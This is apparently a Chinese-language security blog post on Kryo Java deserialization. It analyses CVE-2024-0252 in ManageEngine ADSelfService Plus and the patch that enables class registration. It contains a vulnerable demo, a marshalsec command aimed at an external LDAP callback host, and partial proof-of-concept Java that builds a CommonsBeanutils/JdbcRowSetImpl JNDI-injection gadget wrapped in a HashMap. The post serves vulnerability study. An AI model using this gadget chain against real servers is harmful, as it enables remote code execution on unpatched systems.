

从 CVE-2024-0252 学习 kryo 反序列化

- - -

# 从 CVE-2024-0252 学习 kryo 反序列化

## kryo 介绍

项目地址：[https://github.com/EsotericSoftware/kryo](https://github.com/EsotericSoftware/kryo)  
介绍和简单使用移步：[https://cloud.tencent.com/developer/article/1872432](https://cloud.tencent.com/developer/article/1872432)

## kryo 反序列化

和 hessian 类似，关于反序列化 kryo 有大致以下特性：

1.  两种初始化策略：DefaultInstantiatorStrategy（默认）、StdInstantiatorStrategy  
    详细解释参考（[https://blog.csdn.net/liuxiangke0210/article/details/78377677）](https://blog.csdn.net/liuxiangke0210/article/details/78377677%EF%BC%89)
2.  默认配置实例化对象时需要一个默认 public 构造函数并且不支持代理。
3.  5.0 版本以上默认配置 registrationRequired 值为 true，所有待反序列化的类都需要进行注册，相当于白名单。

kryo 提供了两个反序列化函数：

-   readClassAndObject
-   readObject(Input input, Class<t> type)  
    反序列化逻辑差不多都是获取到反序列化器再调用其 read 方法进行反序列化，不同的是后者需要指定反序列化的类型（序列化器在 com.esotericsoftware.kryo.serializers 下）。</t>

写个漏洞 demo 看看

-   依赖

```bash
<dependency>
    <groupId>com.esotericsoftware</groupId>
    <artifactId>kryo</artifactId>
    <version>4.0.1</version>
</dependency>
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.8.3</version>
</dependency>
```

```bash
//java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Kryo CommonsBeanutils ldap://jndi.callback.red:5/ub4t/
Kryo kryo = new Kryo();
kryo.setInstantiatorStrategy(new Kryo.DefaultInstantiatorStrategy(new StdInstantiatorStrategy()));
Input input = new Input(new FileInputStream("D:\\1.txt"));
kryo.readClassAndObject(input);
input.close();
```

有关利用链在 marshalsec 工具提供了一些：

```bash
marshalsec.Kryo:[SpringAbstractBeanFactoryPointcutAdvisor, CommonsBeanutils]

//kryo.setInstantiatorStrategy(new Kryo.DefaultInstantiatorStrategy(new StdInstantiatorStrategy()));
marshalsec.KryoAltStrategy:[Groovy, SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin, LazySearchEnumeration, BindingEnumeration, ServiceLoader, ImageIO, CommonsBeanutils]
```

## ManageEngine ADSelfService Plus CVE-2024-0252 简要分析

-   环境[https://archives2.manageengine.com/self-service-password/](https://archives2.manageengine.com/self-service-password/)
-   影响版本：6401 之前

下载补丁 diff 主要新增了一行代码

```bash
kryo.setRegistrationRequired(true);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126153422-52d6ff12-bc1d-1.png)

看了下 kryo 组件的版本是 4.0.1（RegistrationRequired 值默认为 false），基本断定漏洞点就是这儿的反序列化，但是工具类里并不是调用 readClassAndObject，而是调用 readObject 方法反序列化为指定的类型（这里是 hashmap）。

上面提到过反序列化时会调用对应的处理器进行反序列化，这里处理 map 类型的序列化器是 MapSerializer，跟进其 read 方法查看最终还是调用的 readClassAndObject 方法进行的反序列化，即在如下场景下同样能触发反序列化。

```bash
kryo.readObject(input, HashMap.class);
```

下面是用的是工具类里的 cb getter+JdbcRowSetImpl 触发 JNDI 注入的链子，然后再用 Haspmap 包装一下，构造 POC

```bash
public static HashMap<String, Object> exp(String jdniUrl) throws Exception {
    BeanComparator cmp = new BeanComparator("lowestSetBit", Collections.reverseOrder());
    Object trig = makeTreeMap(makeJNDIRowSet(jdniUrl), cmp);
    setFieldValue(cmp, "property", "databaseMetaData");
    HashMap<String, Object> hashMap = new HashMap();
    hashMap.put("test",trig);
    return hashMap;
}
public static TreeMap<Object, Object> makeTreeMap (Object tgt, Comparator comparator ) throws Exception {
    TreeMap<Object, Object> tm = new TreeMap<>(comparator);

    Class<?> entryCl = Class.forName("java.util.TreeMap$Entry");
    Constructor<?> entryCons = entryCl.getDeclaredConstructor(Object.class, Object.class, entryCl);
    entryCons.setAccessible(true);
    Field leftF = getField(entryCl, "left");

    Field rootF = getField(TreeMap.class, "root");
    Object root = entryCons.newInstance(tgt, tgt, null);
    leftF.set(root, entryCons.newInstance(tgt, tgt, root));
    rootF.set(tm, root);
    setFieldValue(tm, "size", 2);
    return tm;
}
```

有趣的是 github 早就放了 poc 不过是个马儿[https://github.com/forsaken0128/CVE-2024-0252-RCE](https://github.com/forsaken0128/CVE-2024-0252-RCE) (404 了)

## 参考

[https://cloud.tencent.com/developer/article/1624416](https://cloud.tencent.com/developer/article/1624416)  
[https://blog.csdn.net/liuxiangke0210/article/details/78377677](https://blog.csdn.net/liuxiangke0210/article/details/78377677)
